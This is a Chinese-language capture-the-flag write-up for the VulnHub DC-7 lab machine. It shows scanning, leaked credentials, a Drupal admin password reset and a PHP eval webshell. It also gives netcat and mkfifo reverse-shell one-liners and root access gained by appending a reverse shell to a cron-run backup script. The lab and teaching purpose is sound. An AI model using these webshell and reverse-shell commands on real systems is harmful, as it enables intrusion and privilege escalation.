 # DC7

 - [参考资料](https://blog.csdn.net/weixin_43583637/article/details/102809227?ops_request_misc=%7B%22request%5Fid%22%3A%22158264870219725219922181%22%2C%22scm%22%3A%2220140713.130056874..%22%7D&request_id=158264870219725219922181&biz_id=0&utm_source=distribute.pc_search_result.none-task)

 - [参考资料]https://blog.csdn.net/weixin_43583637/article/details/102809227)

 - [下载地址](https://www.vulnhub.com/entry/dc-7,356/)



## 初探

```
nmap -sP 192.168.31.0/24
```

![](img/1.png)

```
nmap -sT -sV -T5 -A -p- 192.168.31.196
```

![](img/2.png)


使用kali下的网站指纹工具whatweb查看靶机搭建的网站，发现是使用Drupal 8搭建的网站

![](img/3.png)

翻译一下提示
```
欢迎来到DC-7

DC-7引入了一些“新”概念，但是我会让您知道它们是什么。:-)

尽管这一挑战并不是技术性的全部，但是如果您需要诉诸于暴力破解或字典攻击，那么您可能不会成功。

您将要做的就是在盒子外面思考。

方式在盒子外面。:-)
```
？？？ 嘛意思嘛弟弟？？？

在百度搜索@DC7USER后，发现是一个Twitter用户，进入Twitter后搜索这个用户，进入这个用户首页，发现一个GitHub的链接

![](img/5.png)

```
https://github.com/Dc7User/
```
果然

![](img/6.png)

```
这是DC-7挑战的一些“代码”(是的，它不是最好的代码，但那不是重点)。顺便说一句，这不是flag，但如果你在这里做了，无论如何都做得很好。:-)
```

???嘛玩意儿??? 找到了

我们把github上的内容下载下来，查看到了一个配置文件给到了一个账号和密码

![](img/7.png)

```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

`dc7user: MdR3xOgB7#dW`

## 中期

使用kali下的网站指纹工具whatweb查看靶机搭建的网站，发现是使用Drupal 8搭建的网站

```
whatweb http://192.168.31.196
```

![](img/4.png)

连上 `ssh dc7user@192.168.31.196`

![](img/8.png)

home目录下发现了gpg加密的website.sql文件和一个mbox邮件

![](img/9.png)


去看看这个文件

![](img/10.png)

![](img/11.png)

啥意思嘛 就我不配呗，执行文件的拥有者是root，root所属组是www-data，所以拿到www-data权限，修改这个可执行文件，等待文件自动执行就可以反弹回一个rootshell。 小老弟 你这个组怕不是必没。

仔细查看，进入到/var/www/html目录下，因为网站会有一个admin用户，所以使用drush命令修改admin用户的密码为123456，发现可以修改成功

```
cd /var/www/html/

drush user-password admin --password="123456"
```

![](img/12.png)

来到网站后台，使用admin/123456登录网站，成功登录.

```
http://192.168.31.196/user/login
```

在Content—>Add content-->Basic page下.

准备添加PHP代码反弹shell，但发现Drupal 8不支持PHP代码，百度后知道Drupal 8后为了安全，需要将php单独作为一个模块导入.

![](img/13.png)


```
https://www.drupal.org/project/php   //Php介绍页面如下
 
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz //模块包下载地址
```

![](img/14.png)

安装插件

![](img/15.png)

![](img/16.png)

选择FILTERS，勾选PHP点击Install安装，安装成功后会有提示

![](img/17.png)

![](img/18.png)

OK 安装成功

## 后期

然后来到网站开始的欢迎页面，对该页面进行编辑，添加一句话PHP代码，并保存为PHP代码

```
GetShell
<?php
@eval($_REQUEST[1]);
?>
```
使用蚁剑链接。

![](img/19.png)

在kali监听4545端口，并反弹shell到kali，切换shell外壳

```
nc -e /bin/bash 192.168.31.196 4545


nc -lvvp 4545
python -c 'import pty;pty.spawn("/bin/bash")'
```
因为当前用户是www-data

在/opt/scripts目录下的backups.sh脚本文件所属组是www-data，所以www-data用户可以对这个脚本文件进行操作，并且这个脚本文件定时执行可以利用它来反弹shell。(这个脚本定时为15分钟 我佛了！)

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.31.196 4444 >/tmp/f" >> backups.sh
 
nc -lvvp 4444
```



得到root权限后，进入root家目录下，发现theflag.txt文件

![](img/20.png)

## 总结

该靶场大致要点为：
1. 信息收集
2. php写反向shell
3. 通过backups.sh脚本提权

更新笔记：
1. 提权骚操作
2. web渗透



